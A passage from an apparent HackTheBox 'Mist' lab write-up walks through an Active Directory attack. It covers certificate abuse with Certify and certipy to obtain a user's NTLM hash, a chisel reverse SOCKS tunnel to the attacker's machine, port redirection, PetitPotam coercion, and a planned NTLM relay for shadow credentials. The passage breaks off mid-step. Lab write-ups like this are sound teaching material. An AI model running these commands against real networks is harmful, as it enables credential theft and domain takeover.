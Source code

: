 ```bash
Certify.exe request /ca:DC01.mist.htb\mist-DC01-CA /template:User /domain:mist.htb 
```

<img src="https://i.imgur.com/VDyE1Bd.png"/>

Converting the pem into pfx file in order to use it for authenticating from certipy to retrieve NTLM hash of brandon

```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

<img src="https://i.imgur.com/LxnzJI4.png"/>

```bash
certipy auth -pfx cert.pfx  -dc-ip 192.168.100.100  -username Brandon.Keywarp -domain mist.htb
```

<img src="https://i.imgur.com/PHC0W5C.png"/>

Now that  have brandon's hash, we can use PetitPotam to cause coercion for MS01 with webdav protocol which is going to perform HTTP authentication leading to shadow credentials on MS01 but before that let's verify if we can coerce the authentication on smb, for this we need to start chisel with socks proxy

```bash
.\chisel.exe client 10.10.16.43:9000 R:socks

chisel server --reverse -p 9000
```

<img src="https://i.imgur.com/ezT3jDK.png"/>

<img src="https://i.imgur.com/Aax5Cl3.png"/>

For HTTP coercion, webclient service will be enabled on port 8080, so we need to redirect that port from MS01 to our kali machine this is known as port bending, for this I'll be using StreamDivert for redirecting outbound traffic on port 8080 to my kali machine on port 80

```bash
tcp > 8080 0.0.0.0 -> 10.10.16.43 80
```

<img src="https://i.imgur.com/tb8UQTr.png"/>

Running PetitPotam again, this time setting the listener to be MS01 

```
 proxychains python3 /opt/PetitPotam/PetitPotam.py -u brandon.keywarp -hashes ':hash' MS01@8080/test 192.168.100.101
```

<img src="https://i.imgur.com/Ypo8nav.png"/>

This machine account hash can now be relayed to DC01 on ldaps to perform shadow credentials using ntlmrealyx (make sure turn HTTP Off from respnder.conf), normally machine accounts can edit their own `msDS-KeyCredentialLink` attribute but to my surprise this did not worked as it showed it's missing some rights here
